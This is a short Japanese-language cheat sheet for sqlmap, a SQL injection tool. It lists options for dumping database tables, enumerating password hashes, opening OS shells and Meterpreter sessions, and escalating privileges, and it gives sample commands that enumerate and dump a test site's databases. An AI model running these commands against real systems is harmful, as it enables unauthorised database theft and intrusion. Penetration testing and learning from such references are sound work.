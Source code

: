 ## Sqlmap

### 基本コマンド

- -u URL, --url=URL = URL: ターゲットURL（例： "http://www.site.com/vuln.php?id=1"）
- --data=DATA: - POSTを介して送信されるデータ文字列（例： "id = 1"）
- --random-agent: ランダムに選択されたHTTPUser -Agentヘッダー値を使用する
- -p TESTPARAMETER: テスト可能なパラメータ
- --level=LEVEL: 実行するテストのレベル（1-5、デフォルト1）
- --risk=RISK: 実行するテストのリスク（1-3、デフォルト1）

### 列挙コマンド

- -a, --all: すべてを取得する
- -b, --banner: DBMSバナーを取得する
- --current-user: DBMSの現在のユーザーを取得
- --current-db: DBMSの現在のデータベースを取得する
- --passwords: DBMSユーザーのパスワードハッシュを列挙する
- --dbs: DBMSデータベースを列挙する
- --tables: DBMSデータベーステーブルを列挙します
- --columns: DBMSデータベーステーブルの列を列挙します
- --schema: DBMSスキーマを列挙する
- -dump: DBMSデータベーステーブルエントリをダンプします
- --dump-all: すべてのDBMSデータベーステーブルエントリをダンプします
- --is-dba: DBMSの現在のユーザーがDBAであるかどうかを検出します
- -D [DB NAME]: 列挙するDBMSデータベース
- -T [TABLE NAME]: 列挙するDBMSデータベーステーブル
- -C COL: 列挙するDBMSデータベーステーブルの列

### OSアクセスコマンド

- --os-shell: インタラクティブなオペレーティングシステムシェルのプロンプト
- --os-pwn: OOBシェル、Meterpreter、またはVNCのプロンプト
- --os-cmd = OSCMD: オペレーティングシステムコマンドを実行する
- --priv-esc: データベースプロセスのユーザー特権の昇格
- --os-smbrelay: OOBシェル、Meterpreter、またはVNCのワンクリックプロンプト

### Sqlmapその他コマンド

- --sql-shell: SQLプロンプト
- --dbms=DBMS: MySQL等で絞り込み

### Sqlmapサンプル

#### HTTP GETベース

```bash
sqlmap -u https://testsite.com/page.php?id=7 --dbs
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```
